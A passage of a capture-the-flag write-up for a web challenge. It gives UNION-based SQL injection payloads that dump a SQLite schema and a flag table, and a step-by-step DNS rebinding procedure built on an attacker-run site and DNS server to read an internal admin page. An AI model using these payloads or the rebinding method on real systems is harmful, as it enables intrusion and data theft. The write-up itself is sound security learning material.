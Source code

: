 However, the `http://10.0.1.81:5000/` page has nothing interesting at all. `http://10.0.1.81:5000/admin/view/19` contains a suspicious HTML comment: `<!-- Query: select rowid,* from requests where rowid=2; -->`

This is obviously a SQL injection hint. The rest is a simple SQLi challenge. @kaibro solved the rest.

Visit: `/admin/view/1 order by 10`

We will get `SQL Error: 1st ORDER BY term out of range - should be between 1 and 5`.

From this error message, we know it is SQLite db and the column number is 5.

Then dump the table structure: `/admin/view/1 and 1=2 union select 1,2,3,sql,5 from sqlite_master where type='table'`

=> `CREATE TABLE flag (name TEXT, flag TEXT)`

Dump flag: `/admin/view/1 and 1=2 union select 1,2,3,flag,5 from flag`:

=> `OOO{C0rporateIns3curity}`


#### Solution 2: DNS rebinding

Because the internal server does not validate HTTP host header, it's also worth mentioning that DNS rebinding can also be used to solve this challenge. It should work but I fail to reproduce because the admin's internal URL is changing so fast. That leads to a low successful rate of DNS rebinding. (In the earlier the challange is protected with recaptcha, and admin seems to change internal IP address every a few minutes. After the recaptcha is removed, the internal IP keeps changing every request we sent.) The attack procedure is listed as follows:

1. Set up our evil website and listen on `240.240.240.240:5000/admin/view/SQLi`.
2. Set up a DNS server resolving `example.com` randomly to `A 240.240.240.240`  or `A 10.0.1.81` with TTL = 0. Note that you cannot resolve it to two A records. The browser will always resolve to the private IP first. 
3. Send the crafted SQL injection link `http://example.com:5000/admin/view/SQLi` to admin.
4. If we are lucky enough, it will resolve to our evil website `240.240.240.240`.
5. On our evil website, the js will send multiple XHR request to `example.com:5000/admin/view/SQLi` and read the response text.
6. If we are lucky enough, the address will resolve to `10.0.1.81`. Sincer the origin is still `example.com:5000`, we don't violate the same-origin policy. We can easily extract the flag.

For more information about browser bahaviors regarding DNS rebinding please read [@bookgin's article](https://bookgin.tw/2019/01/05/abusing-dns-browser-based-port-scanning-and-dns-rebinding/#attack-scenario). 

#### Failed Attempts

- [PhantomsJS local file inclusion](https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/): @vtim found PhantomJS has to visit `file:///` protocol such that the local file will be the same origin, but in this challenge it's visiting `http://` protocol. We cannot read local files by this approach.
- DNS rebinding: Actually this should not be considered as failed attempts. We use DNS rebinding technique to read the content of `http://10.0.1.81:5000/` and `http://10.0.1.81:5000/admin/view/19`. Unfortunately we didn't notice the HTML comment.
